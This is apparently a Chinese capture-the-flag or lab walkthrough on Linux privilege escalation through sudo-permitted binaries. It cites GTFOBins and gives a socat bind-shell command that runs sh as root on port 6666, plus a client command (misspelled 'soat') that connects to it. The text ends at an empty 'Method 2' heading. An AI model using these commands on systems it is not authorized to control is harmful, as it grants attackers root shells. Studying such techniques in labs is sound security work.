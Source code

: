 尝试在谷歌找这个版本的漏洞，都试了几个，目前没成功过....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8cicba1nsoZduLfNs5fFH3zM9tZX8cXYnRy2GnCgp5hBhSM3e913DSVw/640?wx_fmt=png)

可以看到 bob 被授予访问权限以在可扩展程序上运行范围内容有很多...

这边 https://gtfobins.github.io / 参考这个学习 github 里面很多讲解 sudo 下的提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8d9eZ1K2b2R2FQ1w42k4YKsliaYBXcsQoLw7njl9npQNDQZjaWJFpPaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/oIftju2DdeGdtSnaOEZ7dibDcSL9ib8MeA7v8VPEFAcOYWzibKvXcW7YAwp0ibOnVplJ4lice0S6Sqibfz8UR69AQHVA/640?wx_fmt=png)

方法 1

![](https://mmbiz.qpic.cn/mmbiz_png/ia0ZzxuKYGB9z3YUuDtmdjaRia8IyUwsy5ibNsXFTO9GDUIKia5YOFmoojYV2vIZgibiaCN7jk6bWLjrrjqJDqb5q7eQ/640?wx_fmt=png)

如果 sudo -l 遇到 socat，可以直接一条命令拿权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8oFwb1JZKORLQMcdvhib7OABDva1C8u6S3MuFGDjbpFDU19cPtpT2uiaQ/640?wx_fmt=png)

```
sudo socat tcp-listen:6666,reuseaddr,fork exec:sh,pty,stderr,setsid,sigint,sane
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8TibwpmrYL7Zp3oibHhF1BcicVibibHnusEkvFMOJQHib97XvTcXz3OsGian3Q/640?wx_fmt=png)

```
soat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:6666
```

提权成功....！！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8xrWLZ5C2Ow2icCw7uSbVx2qyUkU8o5dtSiaVNg5M1PofrlFA1ZBzuXibg/640?wx_fmt=png)

这也提权成功...！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8V33ZpGju4VYl2494YGelUe9lKL0pgtxgLNnp0bVB92QkcrM7FhWRGQ/640?wx_fmt=png)

这也成功了！！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr84L4HFclP54OSQEqic2vnTbESicmLVIajDCNgAuJ6YKC68fPnIaNBqaqg/640?wx_fmt=png)

还可以用 git... 提权

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8d5gia7Hv320at0SRa8rhTtBcXer6N3eQk0x3CZCk4APp5a8Hnhlfia4w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8Q0phtH67DyXklff11FVZOPUAXZLLYekMwdGAWBHWib3mbQL6y9dkIyA/640?wx_fmt=png)

等等.... 只要 sudo -l 中 / user/bin / 目录下的形式都有方法提权... 参考：https://gtfobins.github.io/

![](https://mmbiz.qpic.cn/sz_mmbiz_png/oIftju2DdeGdtSnaOEZ7dibDcSL9ib8MeA7v8VPEFAcOYWzibKvXcW7YAwp0ibOnVplJ4lice0S6Sqibfz8UR69AQHVA/640?wx_fmt=png)

方法 2

![](https://mmbiz.qpic.cn/mmbiz_png/ia0ZzxuKYGB9z3YUuDtmdjaRia8IyUwsy5ibNsXFTO9GDUIKia5YOFmoojYV2vIZgibiaCN7jk6bWLjrrjqJDqb5q7eQ/640?wx_fmt=png)
